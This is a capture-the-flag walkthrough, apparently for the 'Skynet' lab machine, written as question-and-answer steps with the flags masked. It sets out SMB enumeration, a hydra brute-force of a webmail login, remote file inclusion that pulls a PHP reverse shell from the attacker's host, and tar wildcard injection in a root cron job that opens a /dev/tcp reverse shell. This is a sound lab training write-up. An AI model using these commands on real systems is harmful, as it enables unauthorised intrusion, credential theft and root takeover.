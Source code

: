 # Skynet

- What is Miles password for his emails?

	- `scilla port -target <TARGET_IP>`
	- 6 ports open...
	- Looking the website...nice.
	- `nmap -p 139 -A <TARGET_IP>`
	- `enum4linux -h <TARGET_IP> -N`
	- We see share list, permissions and a user.
	- `smbclient //<TARGET_IP>/anonymous -p 139` with no password.
	- Get all the files with `get file` and then `exit`.
	- `hydra -l milesdyson -P log1.txt <TARGET_IP> http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -v`
	- `************************`

- What is the hidden directory?

	- Enter in the Miles' mail.
	- You find in the first email the samba Password.
	- `smbclient -U milesdyson //<TARGET_IP>/milesdyson` and enter pwd.
	- `ls`
	- `cd notes`
	- `get important.txt`
	- `*******************`

- What is the vulnerability called when you can include a remote file for malicious purposes?

	- `remote file inclusion`

- What is the user flag?

	- `scilla dir -target <TARGET_IP>/***************`
	- we find a subdir called `administrator`
	- [RFI](https://www.exploit-db.com/exploits/25971)
	- `http://<TARGET_IP>/****************/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`
	- On your machine `nc -lnvp 1234`
	- Download the pentestmonkey reverse shell and change the ip address.
	- On your machine `sudo python3 -m http.server`
	- `http://<TARGET_IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<YOUR_IP>:8000/php-reverse-shell.php`
	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	- `cd /home/milesdyson`
	- `cat user.txt`
	- `*************************`

- What is the root flag?

	- `cat /etc/crontab`
	- The file backup.sh is executed by root every minute
	- This will help us: `tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` (from GTFObins)
	- We create a file with the content:
	~~~
	#!/bin/bash
	bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1
	~~~
	- And we save this into `/var/www/html/shell`
	- `chmod +x /var/www/html/shell`
	- `touch /var/www/html/--checkpoint=1`
	- `touch /var/www/html/--checkpoint-action=exec=bash\ shell`
	- On your machine `nc -lvnp 4444`
	- Wait some moments and you get a root shell.
	- `cat /root/root.txt`
	- `*******************************`


